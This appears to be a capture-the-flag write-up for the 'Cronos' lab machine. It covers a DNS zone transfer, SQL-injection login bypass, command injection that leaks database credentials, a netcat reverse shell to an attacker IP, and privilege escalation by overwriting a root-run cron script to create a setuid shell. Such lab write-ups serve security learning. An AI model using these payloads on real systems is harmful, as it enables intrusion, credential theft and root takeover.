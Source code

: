 ###  Cronos

#### information

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### recon

**dns**

 dig -t axfr  cronos.htb @10.10.10.13

; <<>> DiG 9.11.5-P4-1-Debian <<>> -t axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800

**www**

as we see that "http://admin.cronos.htb/"  is a login page, so try to sql to test if hava  something interesting. 

 wfuzz -w /usr/share/wordlists/SecLists/Fuzzing/Generic-SQLi.txt  -d 'username=FUZZ&password=password' -u http://admin.cronos.htb  --hw 221

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fup

000065:  C=302     98 L      215 W         2580 Ch        "admin' or '"
000201:  C=302     98 L      215 W         2580 Ch        "x' or 1=1 or 'x'='y"
000216:  C=200     98 L      221 W         2618 Ch        "declare @q nvarchar (200) select @q = 0x770061006900740066006F00720020006400000217:  C=200     98 L      221 W         2618 Ch        "declare @s varchar(200) select @s 



**<span style="font:16">Bingo</span>**  we got the sql injection , seccessufly login with **username=admin'-- -&password=pass**

now we get het welcome.php  page, it's a web api page to execute command.

POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://admin.cronos.htb/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Cookie: PHPSESSID=p3kscfgr9a96ut1ulk74qejcl0
Connection: close
Upgrade-Insecure-Requests: 1

command=traceroute&host=8.8.8.8%3Bcat+config.php



define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'admin');
define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
define('DB_DATABASE', 'admin');
$db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>

and try to cat /etc/passwd , get the root, www-data, noulis users.

connect ssh with kEjdbRigfBHUREiNSDs , but unfortunately , we faild.

try reverse shell with nc :

​	command=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.27+8000+>/tmp/f

and Enum this machine, found that cron job 

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

Boom! we can get the shell

echo '<?php system("cp /bin/dash /tmp/shell; chmod 4755 /tmp/shell"); ?>' > artisan